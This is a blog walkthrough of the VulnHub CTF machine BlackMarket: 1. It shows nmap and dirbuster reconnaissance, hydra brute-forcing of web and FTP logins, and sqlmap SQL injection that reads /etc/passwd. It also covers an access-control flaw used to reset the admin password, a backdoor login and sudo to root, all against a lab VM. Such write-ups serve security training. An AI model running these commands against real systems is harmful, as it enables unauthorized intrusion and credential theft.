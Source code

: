 ```yaml
---
layout: post
date: 2018-06-17 11:33:26 +0000
last_modified_at: 2018-06-17 15:57:15 +0000
title: "BlackMarket: 1 Walkthrough"
category: Walkthrough
tag: "[VulnHub, BlackMarket]"
comments: true
image:
  feature: blackmarket-1-walkthrough.jpg
  credit: Alexas_Fotos / Pixabay
  creditlink: https://pixabay.com/en/pistol-weapon-target-crime-fight-2948729/
---
```


This post documents the complete walkthrough of BlackMarket: 1, a boot2root [VM][1] created by [AcEb0mb3R][2], and hosted at [VulnHub][3]. If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

### Background

The BlackMarket VM was first presented at Brisbane SecTalks BNE0x1B. This VM has total of six flags and one `root` flag. Each flag leads to another and the flag format is flag{blahblah}.

### Information Gathering

Let's start with a `nmap` scan to establish the available services in the host.

```
# nmap -n -v -Pn -p- -A --reason -oN nmap.txt 192.168.10.130
...
PORT    STATE SERVICE    REASON         VERSION
21/tcp  open  ftp        syn-ack ttl 64 vsftpd 3.0.2
22/tcp  open  ssh        syn-ack ttl 64 OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 a9:98:84:aa:90:7e:f1:e6:be:c0:84:3e:fa:aa:83:8a (DSA)
|   2048 07:5c:77:15:30:5a:17:95:8e:0f:91:f0:2d:0b:c3:7a (RSA)
|   256 2f:9c:29:b5:f5:dc:f4:95:07:6d:41:ee:f9:0d:15:b8 (ECDSA)
|_  256 24:ac:30:c7:79:7f:43:cc:fc:23:df:ea:db:bb:4a:cc (ED25519)
80/tcp  open  http       syn-ack ttl 64 Apache httpd 2.4.7 ((Ubuntu))
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: BlackMarket Weapon Management System
110/tcp open  pop3?      syn-ack ttl 64
|_ssl-date: TLS randomness does not represent time
143/tcp open  imap       syn-ack ttl 64 Dovecot imapd
|_ssl-date: TLS randomness does not represent time
993/tcp open  ssl/imap   syn-ack ttl 64 Dovecot imapd
| ssl-cert: Subject: commonName=localhost/organizationName=Dovecot mail server
| Issuer: commonName=localhost/organizationName=Dovecot mail server
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2017-11-01T07:05:35
| Not valid after:  2027-11-01T07:05:35
| MD5:   beb8 4ed5 6adc dc0e d595 6678 2039 473e
|_SHA-1: 94b8 f1b8 913e a32b 4ea1 6e58 4252 8a7c c432 c897
|_ssl-date: TLS randomness does not represent time
995/tcp open  ssl/pop3s? syn-ack ttl 64
| ssl-cert: Subject: commonName=localhost/organizationName=Dovecot mail server
| Issuer: commonName=localhost/organizationName=Dovecot mail server
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2017-11-01T07:05:35
| Not valid after:  2027-11-01T07:05:35
| MD5:   beb8 4ed5 6adc dc0e d595 6678 2039 473e
|_SHA-1: 94b8 f1b8 913e a32b 4ea1 6e58 4252 8a7c c432 c897
|_ssl-date: TLS randomness does not represent time
```

`nmap` finds plenty of open services. But, let's start with the `http` since there is a higher chance of finding an attack surface here.

### Flag: 1

Indeed, the first flag is in the HTML source of the landing page.

![Flag: 1](/assets/images/posts/blackmarket-1-walkthrough/0.ib8ttza2a7.png)

I thought the flag's body looked like it's `base64` encoded. This is what I get after decoding it.

```
# echo -n Q0lBIC0gT3BlcmF0aW9uIFRyZWFkc3RvbmU= | base64 -d && echo
CIA - Operation Treadstone
```

Hmm. CIA? Operation Treadstone? Jason Bourne?

Following the trail of the first flag, I google for "CIA - Operation Treadstone" and build a wordlist with `cewl` from the first [result](http://bourne.wikia.com/wiki/Operation_Treadstone) — it might be useful later, who knows?

### Directory Fuzzing

Next, I use `dirbuster`, combined with one of the bigger wordlists to fuzz the site, with the intention to uncover any directories that are not visible from the get-go.

```
Dir found: / - 200
Dir found: /admin/ - 302
Dir found: /css/ - 403
Dir found: /db/ - 403
Dir found: /dist/ - 403
Dir found: /dist/css/ - 403
Dir found: /dist/js/ - 403
Dir found: /icons/ - 403
Dir found: /server-status/ - 403
Dir found: /squirrelmail/ - 302
Dir found: /supplier/ - 302
Dir found: /upload/ - 403
Dir found: /user/ - 302
Dir found: /vendor/ - 403
```

The fuzz turns up `/squirrelmail` and `/upload` — potential attack surfaces. Files like `/header.php` and `/navbar` are also consistently seen (return code `200`) under `/admin`, `/supplier`, and `/user`, which suggests that the site could be using role-based access.

### BlackMarket Login

This is how the login page looks like.

![BlackMarket Login](/assets/images/posts/blackmarket-1-walkthrough/0.6weguu5c7s.png)

Let's use `hydra` to perform a brute-force login attack on the site and see if we can pick any low-hanging fruit. `usernames.txt` contains `admin`, `supplier` and `user`, and `top10.txt` contains the top-ten passwords found in the dark web.

```
# hydra -L usernames.txt -P top10.txt -f -e nsr -o hydra.txt -t 64 192.168.10.130 http-post-form "/login.php:username=^USER^&password=^PASS^:failed"
[80][http-post-form] host: 192.168.10.130   login: supplier   password: supplier
```

Boom. I'm in.

![Login Success - supplier](/assets/images/posts/blackmarket-1-walkthrough/0.g3bb3gue5yu.png)

### SQL Injection

I know that I'm looking at a potential SQL injection vulnerability when it involves product ID in a table of products.

![Potential SQL Injection Vulnerability](/assets/images/posts/blackmarket-1-walkthrough/0.9z3g24swagm.png)

The tool for the job is `sqlmap`. I'll need the session cookie to scan for SQLi vulnerabilities.

![Cookie from Firefox](/assets/images/posts/blackmarket-1-walkthrough/0.foxwz3nrnh8.png)

```
sqlmap --cookie="PHPSESSID=og152rg2j9k54tll52l146g9j4" --url=http://192.168.10.130/supplier/edit_product.php?id=1
```

![SQL Injection](/assets/images/posts/blackmarket-1-walkthrough/0.ndsxku3wwn.png)

Awesome. Let's proceed to determine the databases and dump out interesting information from them.

Five databases in MySQL.

![Databases](/assets/images/posts/blackmarket-1-walkthrough/0.ww0hiyl86oe.png)

Ten tables in `BlackMarket`.

![Tables in BlackMarket](/assets/images/posts/blackmarket-1-walkthrough/0.7d9nzmb276f.png)

Five users in `user` table.

![User_Table in BlackMarket](/assets/images/posts/blackmarket-1-walkthrough/0.dlp3yrthkfj.png)

Here's `/etc/passwd` that I read off with `--file-read` command option.

```
root:x:0:0:root:/root:/bin/bash
...
dimitri:x:1000:1000:,,,:/home/dimitri:/bin/bash
jbourne:x:1001:1001::/var/www/html/jbourne:
nicky:x:1002:1002:,,,:/home/nicky:/bin/ftponly
ftp:x:112:120:ftp daemon,,,:/srv/ftp:/bin/false
```

### Flag: 2

Notice that the way for `nicky` to log in is through `ftp`? I know that `ftp` is available from the `nmap` scan. Armed with this information, let's give a shot to `hydra` with the wordlist I built earlier on, and try to brute-force our way in.

```
# hydra -l nicky -P cewl.txt -f -o hydra.txt -e nsr -t 64 ftp://192.168.10.130)
[21][ftp] host: 192.168.10.130   login: nicky   password: CIA
```

The second flag is in the file `IMP.txt`. You can find the file at `/ftp/ImpFiles` after logging in.

```
# cat IMP.txt
flag2{Q29uZ3JhdHMgUHJvY2VlZCBGdXJ0aGVy}

If anyone reading this message it means you are on the right track however I do not have any idea about the CIA blackmarket Vehical workshop. You must find out and hack it!
```

It's decoded to this.

```
# echo -n Q29uZ3JhdHMgUHJvY2VlZCBGdXJ0aGVy | base64 -d
Congrats Proceed Further
```

Let's proceed further then.

### Flag: 3

The third flag is in the `flag` table — one of the tables in `BlackMarket` database.

![Flag: 3](/assets/images/posts/blackmarket-1-walkthrough/0.qoxa0vrn9b.png)

I'm supposed to find the email access of Jason Bourne; and we know from the results of the `dirbuster` fuzz that `/squirrelmail` exists — a web-based email client.

![SquirrelMail](/assets/images/posts/blackmarket-1-walkthrough/0.ufgx697kl7l.png)

### Flag: 4

Recall the `supplier` login access? Because of poor coding in the role-based access, I can change the URL to a different role such as `/admin` and access their respective landing pages with `supplier` session cookie.

![Admin Landing Page](/assets/images/posts/blackmarket-1-walkthrough/0.xeywdl0ado.png)

Besides changing to the landing pages of other roles with the same session cookie, I can also change the login password of any user as long as I know the user ID. Let's change the password of `admin` (`id=1`) through `/edit_customer.php`.

![Burp Repeater](/assets/images/posts/blackmarket-1-walkthrough/0.vjdzvr2g4ll.png)

Flag 4 is on display once I'm logged in.

![Flag: 4](/assets/images/posts/blackmarket-1-walkthrough/0.b9g442s2qoq.png)

It's decoded to this.

```
# echo -n bm90aGluZyBpcyBoZXJl | base64 -d && echo
nothing is here
```

Trolled — the decoded message says "nothing is here".

### Flag: 5

Since there's a tendency of trolling, perhaps `?????` is the password to Jason Bourne email access?

![Login Success - jbourne](/assets/images/posts/blackmarket-1-walkthrough/0.f45j0gwoq6.png)

Sure enough.

Looking into **INBOX.Drafts** lies the fifth flag and an encrypted message from putin@kgb.gov.ru. No prize for guessing who that is :wink:

![Flag: 5](/assets/images/posts/blackmarket-1-walkthrough/0.yyg8yhsrie.png)

It's decoded to this.

```
# echo -n RXZlcnl0aGluZyBpcyBlbmNyeXB0ZWQ= | base64 -d && echo
Everything is encrypted
```

Duh. The decoded flag offers nothing of value.

### Decryption

It's obvious that we are looking at some kind of substitution cipher. The method to decipher it — is to look for words with repeated characters. For example, straight up we have "Wrnrgir", which is a substitution for "Dimitri". As such, the first line is "Hi Dimitri".

Moving on to the word "zxxvhh", which has two pairs of repeated characters — we can turn to regular expression and a dictionary to help us find the next substitution candidate.

```
# grep -P '^[a-z]([a-z])\1[a-z]([a-z])\2$' /usr/share/dict/words
abbess
access
appall
assess
bootee
hoodoo
muumuu
peewee
teepee
voodoo
```

The substitution candidate is possibly "access" as the other words don't make contextual sense in the message.

As I piece together the substitution candidates and the contextual clues, I come to realize the substitution key is the reverse alphabet set. I wrote a simple bash script, `decrypt.sh` to decrypt the whole message.

```bash
#!/bin/bash

SET1=$((echo -n {a..z}; echo -n {A..Z}) | tr -d ' ')
SET2=$((echo -n {z..a}; echo -n {Z..A}) | tr -d ' ')

cat $1 | tr $SET1 $SET2
```

```
# ./decrypt.sh encrypted.txt
Hi Dimitri
If you are reading this I might be not alive. I have place a backdoor in Blackmarket
workshop under /kgbbackdoor folder you must have to use
PassPass.jpg in order to get access.
```

### BlackMarket Auto Workshop

Hmm. Another web application? I got a `404 - Not Found` when I navigated to `/eworkshop` following the trail.

Not knowing how to proceed, I use the following command hoping that I'll be lucky enough to locate the web application by trying all the alphabetical letters before `workshop`.

```
# for c in {a..z}; do printf "/${c}workshop/: %d\n" $(curl -s -w %{http_code} -o /dev/null 192.168.10.130/${c}workshop/); done
/aworkshop/: 404
/bworkshop/: 404
/cworkshop/: 404
/dworkshop/: 404
/eworkshop/: 404
/fworkshop/: 404
/gworkshop/: 404
/hworkshop/: 404
/iworkshop/: 404
/jworkshop/: 404
/kworkshop/: 404
/lworkshop/: 404
/mworkshop/: 404
/nworkshop/: 404
/oworkshop/: 404
/pworkshop/: 404
/qworkshop/: 404
/rworkshop/: 404
/sworkshop/: 404
/tworkshop/: 404
/uworkshop/: 404
/vworkshop/: 200
/wworkshop/: 404
/xworkshop/: 404
/yworkshop/: 404
/zworkshop/: 404
```

The web application is at `/vworkshop`. Wait a minute! Didn't the second flag mention **Vehical workshop**? I got trolled again.

![BlackMarket Workshop](/assets/images/posts/blackmarket-1-walkthrough/0.drh14ev63nm.png)

### KGB Backdoor

From the decrypted message, we got to know that a backdoor is in the BlackMarket Auto Workshop and that we need `PassPass.jpg` to gain access to it. Here's how `PassPass.jpg` looks like.

![PassPass.jpg](/assets/images/posts/blackmarket-1-walkthrough/0.8hfnu6g9x1j.png)

Like they always say — the devil is in the detail.

```
# strings PassPass.jpg | tail -1
Pass = 5215565757312090656
```

### Backdoor Login

This time round, I rely on good ol' fashion guesswork to determine the location of the backdoor. It's at `/vworkshop/kgbbackdoor/backdoor.php`.

![backdoor.php](/assets/images/posts/blackmarket-1-walkthrough/0.s3vwa3ng4w.png)

From the HTML source of the page, it's obvious that to access the backdoor, I need to submit a `POST` request with password. To that end, I wrote a simple HTML login form.

{% highlight html linenos %}
<html>
  <head>
    <style>
      body {
        width: 300px;
        height: 100px;
        margin: 0 auto;
        display: flex;
        justify-content: center;
        align-items: center;
        padding: 100px;
      }
    </style>
    <title>Backdoor Login</title>
  </head>
  <body>
    <div class="login">
      <h2>Come on, let's do this!</h2>
      <form action="http://192.168.10.130/vworkshop/kgbbackdoor/backdoor.php" method="post">
        <input name="pass" type="password" />
        <button type="submit">Login</button>
      </form>
    </div>
  </body>
</html>
{% endhighlight %}

And `5215565757312090656` is not the password — too bad.

![Failed Login](/assets/images/posts/blackmarket-1-walkthrough/0.d1oy6u6w75t.png)

This prompts me to look deeper into `5215565757312090656`. Notice that it has nineteen digits, an odd number — there's no way this is hexadecimal; it's an integer.

Next, I convert the integer into hexadecimal and print it out as ASCII.

```
# printf "%x\n" 5215565757312090656 | xxd -p -r
HailKGB
```

This is more like it.

![KGB Backdoor](/assets/images/posts/blackmarket-1-walkthrough/0.e4yov7k59cf.png)

Boom. I'm in.

### Flag: 6

The sixth flag is at the home directory of the backdoor.

![Flag: 6](/assets/images/posts/blackmarket-1-walkthrough/0.hv89dztx7xs.png)

It's decoded to this.

```
# echo -n Um9vdCB0aW1l | base64 -d && echo
Root time
```

I must be getting close.

### Dimitri Hates Apple

I get it — Dimitri hates Apple products.

![Dimitri Hates Apple](/assets/images/posts/blackmarket-1-walkthrough/0.az52lg1aat.png)

Having gone so far into this challenge, I'm pretty sure this is the password for `dimitri`'s account. In fact, I got in without realizing that I typed `DimitriHateApple` instead `DimitryHateApple`. What a stroke of luck!

![Login Success - dimitri](/assets/images/posts/blackmarket-1-walkthrough/0.w0kkzwogx9i.png)

### Root Time

My lucky streak continues — `dimitri` is able to `sudo` as `root`.

![sudo](/assets/images/posts/blackmarket-1-walkthrough/0.vxk49yhov1.png)

Time to be `root` and call it a day.

![The End](/assets/images/posts/blackmarket-1-walkthrough/0.8ct87zflfpe.png)

:dancer:

### Decoded Flags

```
1. CIA - Operation Treadstone
2. Congrats Proceed Further
3. Find Jason Bourne Email access
4. nothing is here
5. Everything is encrypted
6. Root time
```

[1]: https://www.vulnhub.com/entry/blackmarket-1,223/
[2]: https://twitter.com/@Acebomber911
[3]: https://www.vulnhub.com
